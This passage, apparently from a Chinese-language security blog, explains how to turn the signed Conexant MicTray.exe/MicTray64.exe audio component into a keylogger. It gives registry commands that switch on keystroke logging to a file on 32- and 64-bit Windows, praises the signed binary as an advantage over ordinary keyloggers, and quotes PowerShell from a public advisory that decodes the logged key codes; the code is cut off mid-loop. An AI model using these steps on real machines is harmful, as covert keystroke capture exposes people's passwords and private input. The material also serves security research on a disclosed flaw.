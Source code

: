 执行MicTray.exe后，记录文件保存在`C:\test\log.txt`

### 2、针对64位系统的键盘记录

32位程序(MicTray.exe)的配置命令如下：

```
reg add hkcu\SOFTWARE\Conexant\MicTray.exe /v LogName /t REG_SZ /d "C:\test\log.txt"
reg add hklm\SOFTWARE\Wow6432Node\Conexant\MicTray\Hotkey /v CustomSettings /t REG_DWORD /d 1
```

64位程序(MicTray64.exe)的配置命令如下：

```
reg add hkcu\SOFTWARE\Conexant\MicTray64.exe /v LogName /t REG_SZ /d "C:\test\log.txt"
reg add hklm\SOFTWARE\Conexant\MicTray\Hotkey /v CustomSettings /t REG_DWORD /d 1
```

该工具通过调用WinAPI SetwindowsHookEx()实现键盘记录，相对于常规的键盘记录程序，优点在于包含数字签名

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-10-1/3-1.png)

### 3、解析键盘记录内容

日志文件记录的是键盘的虚拟键码

可以通过脚本实现将虚拟键码转换为键盘按键的名称

测试参考链接中的powershell代码：

https://www.modzero.ch/advisories/MZ-17-01-Conexant-Keylogger.txt

代码如下：

```
$filename = "c:\users\public\MicTray.log"

[System.IO.FileStream]   $fs = [System.IO.File]::Open(
      $filename, 
      [System.IO.FileMode]::Open, 
      [System.IO.FileAccess]::Read, 
      [System.IO.FileShare]::ReadWrite)
         
[System.IO.StreamReader] $fr = [System.IO.StreamReader]::new(
      $fs, 
      [Text.UTF8Encoding]::UNICODE)

$el = 0

while($el -lt 2) {
   
   $line = $fr.ReadLine()

   # handle broken newlines in log...
   if([string]::IsNullOrEmpty($line)) {
      $el++
   } else {
      $el=0
   }

   $mc = [regex]::Match($line, 
         "MicTray64.exe.*flags (0x0[A-Fa-f0-9]?).*vk (0x[A-Fa-f0-9]+)$")
   $r = $mc.Groups[2].Value

   if(-Not [string]::IsNullOrEmpty($r)) {
      $i = [convert]::ToInt32($r, 16)
      $c = [convert]::ToChar($i)
```